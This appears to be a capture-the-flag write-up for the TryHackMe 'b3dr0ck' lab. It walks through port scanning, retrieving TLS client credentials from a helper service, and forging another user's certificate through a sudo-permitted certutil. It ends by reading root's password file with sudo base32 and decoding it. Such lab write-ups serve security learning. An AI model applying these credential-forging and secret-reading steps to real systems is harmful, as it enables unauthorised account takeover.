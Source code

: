 ```yaml
---
layout: post
title: tryhackme - b3dr0ck
---
```


# b3dr0ck

# recon

I added the machine’s IP to my `/etc/hosts` as `bedrock.thm` then ran an `nmap` scan to find `ssh` and `http` ports open

```bash
$ sudo nmap bedrock.thm  -v
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9009/tcp open  pichat
```

besides the box had a helpful description

```bash
Barney is setting up the ABC webserver, and trying to use TLS certs to secure connections, but he's having trouble. Here's what we know...

		- He was able to establish nginx on port 80,  redirecting to a custom TLS webserver on port 4040
		- There is a TCP socket listening with a simple service to help retrieve TLS credential files (client key & certificate)
    - There is another TCP (TLS) helper service listening for authorized connections using files obtained from the above service
    Can you find all the Easter eggs?

```

so now I know there are 4 open ports on the box

## http

the website had nothing interesting besides this note

```bash
Welcome to ABC!

Abbadabba Broadcasting Compandy

We're in the process of building a website! Can you believe this technology exists in bedrock?!?

Barney is helping to setup the server, and he said this info was important...

Hey, it's Barney. I only figured out nginx so far, what the h3ll is a database?!?
Bamm Bamm tried to setup a sql database, but I don't see it running.
Looks like it started something else, but I'm not sure how to turn it off...

He said it was from the toilet and OVER 9000!

Need to try and secure connections with certificates...
```

so I went to check port 9009, which gave me a private key (the commands were guessed based on what the text was saying) and a certificate to connect to a service running on a higher port

```bash
$ nc bedrock.thm 9009
__          __  _                            _                   ____   _____ 
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |     
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |     
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____ 
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|
                                                                               
                                                                               
What are you looking for? help
Looks like the secure login service is running on port: 54321

Try connecting using:
socat stdio ssl:MACHINE_IP:54321,cert=<CERT_FILE>,key=<KEY_FILE>,verify=0
What are you looking for? key

Sounds like you forgot your private key. Let's find it for you...
-----BEGIN RSA PRIVATE KEY-----
[REDACTED KEY]
-----END RSA PRIVATE KEY-----
What are you looking for? cert
Sounds like you forgot your certificate. Let's find it for you...
-----BEGIN CERTIFICATE-----
[REDACTED CERTIFICATE]
-----END CERTIFICATE-----

What are you looking for?
```

after saving the key and the cert to a file I connected to port 54321 which gave me the `barney`'s ssh password

```bash
$ socat stdio ssl:bedrock.thm:54321,cert=cert.pem,key=private.key,verify=0

 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)
                                                                                 
                                                                                 

Welcome: 'Barney Rubble' is authorized.
b3dr0ck> help
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
b3dr0ck> user
Current user = 'Barney Rubble' (valid peer certificate)
b3dr0ck> ^C
$ ssh barney@bedrock.thm
barney@bedrock.thm's password: 
barney@b3dr0ck:~$ ls -a
.  ..  barney.txt  .bash_history  .bash_logout  .bashrc  .cache  .hushlogin  .profile  .viminfo
barney@b3dr0ck:~$ cat barney.txt 
THM{RADACTED}
```

# privilege escalation

after getting on the machine I found that user have can run `/usr/bin/certutil` with root, the program take the user first and last name as input, and gives some sort of private key and a certificate

```bash
barney@b3dr0ck:~$ sudo -l
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
barney@b3dr0ck:~$ sudo /usr/bin/certutil

Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]

barney@b3dr0ck:~$
```

now I needed the full name of another user, viewing the content of `/etc/password` reveled the other name which is `Fred Flintstone`

```bash
barney@b3dr0ck:~$ sudo /usr/bin/certutil fred 'Fred Flintstone'
Generating credentials for user: fred (Fred Flintstone)
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
[REDACTED PRIVATE KEY]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[REDACTED CERTIFICATE]
-----END CERTIFICATE-----
```

I used the private key and the cert to connect to the service running at port 54321 again, this time to get `fred`'s ssh password

```bash
$ socat stdio ssl:bedrock.thm:54321,cert=fred_cert.pem,key=fred_private.key,verify=0

 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)
                                                                                 
                                                                                 

Welcome: 'Fred Flintstone' is authorized.
b3dr0ck> user
Current user = 'Fred Flintstone' (valid peer certificate)
b3dr0ck> help
Password hint: [REDACTED] (user = 'Fred Flintstone')
b3dr0ck> ^C
$ ssh fred@bedrock.thm 
fred@bedrock.thm's password: 
fred@b3dr0ck:~$ ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .cache  fred.txt  .hushlogin  .profile  .selected_editor  .ssh  .viminfo
fred@b3dr0ck:~$ cat fred.txt 
THM{REDACTED}
```

this user could run exfiltrate a hash of the `root`'s password with `/usr/bin/base32` 

```bash
fred@b3dr0ck:~$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
fred@b3dr0ck:~$ sudo /usr/bin/base32 /root/pass.txt | base32 -d | base32 -d | base64 -d
[REDACTED]
```

I used crackstation to the clear text password then successfully logged in as root (btw the password wasn’t in rockyou.txt which is a first xd)

```bash
fred@b3dr0ck:~$ su -
Password: 
root@b3dr0ck:~# ls -a
.  ..  .bash_history  .bashrc  pass.txt  .profile  root.txt  snap  .ssh  .viminfo
root@b3dr0ck:~# cat root.txt 
THM{REDACTED}
root@b3dr0ck:~#
```

---
